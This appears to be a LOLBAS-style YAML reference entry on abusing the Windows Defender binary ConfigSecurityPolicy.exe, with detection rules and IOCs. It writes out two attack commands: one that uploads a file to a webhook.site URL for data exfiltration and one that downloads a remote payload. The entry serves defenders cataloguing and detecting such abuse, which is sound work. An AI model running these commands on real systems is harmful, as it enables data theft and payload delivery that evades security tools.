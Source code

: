 ```yaml
---
Name: ConfigSecurityPolicy.exe
Description: Binary part of Windows Defender. Used to manage settings in Windows Defender. you can configure different pilot collections for each of the co-management workloads. Being able to use different pilot collections allows you to take a more granular approach when shifting workloads.
Author: Ialle Teixeira
Created: 2020-09-04
Commands:
  - Command: ConfigSecurityPolicy.exe C:\Windows\System32\calc.exe https://webhook.site/xxxxxxxxx?encodedfile
    Description: Upload file, credentials or data exfiltration in general
    Usecase: Upload file
    Category: Upload
    Privileges: User
    MitreID: T1567
    OperatingSystem: Windows 10
  - Command: ConfigSecurityPolicy.exe https://example.com/payload
    Description: It will download a remote payload and place it in the cache folder (for example - %LOCALAPPDATA%\Microsoft\Windows\INetCache\IE)
    Usecase: Downloads payload from remote server
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: C:\Program Files\Windows Defender\ConfigSecurityPolicy.exe
  - Path: C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\ConfigSecurityPolicy.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/5e57e476c29980800dcc88a7a001ddb75d21a58b/rules/windows/process_creation/win_pc_lolbas_configsecuritypolicy.yml
  - IOC: ConfigSecurityPolicy storing data into alternate data streams.
  - IOC: Preventing/Detecting ConfigSecurityPolicy with non-RFC1918 addresses by Network IPS/IDS.
  - IOC: Monitor process creation for non-SYSTEM and non-LOCAL SERVICE accounts launching ConfigSecurityPolicy.exe.
  - IOC: User Agent is "MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E; .NET CLR 2.0.50727; .NET CLR 3.0.30729; .NET CLR 3.5.30729)"
Resources:
  - Link: https://docs.microsoft.com/en-US/mem/configmgr/comanage/how-to-switch-workloads
  - Link: https://docs.microsoft.com/en-US/mem/configmgr/comanage/workloads
  - Link: https://docs.microsoft.com/en-US/mem/configmgr/comanage/how-to-monitor
  - Link: https://twitter.com/NtSetDefault/status/1302589153570365440?s=20
Acknowledgement:
  - Person: Ialle Teixeira
    Handle: '@NtSetDefault'
  - Person: Nir Chako (Pentera)
    Handle: '@C_h4ck_0'
---
```

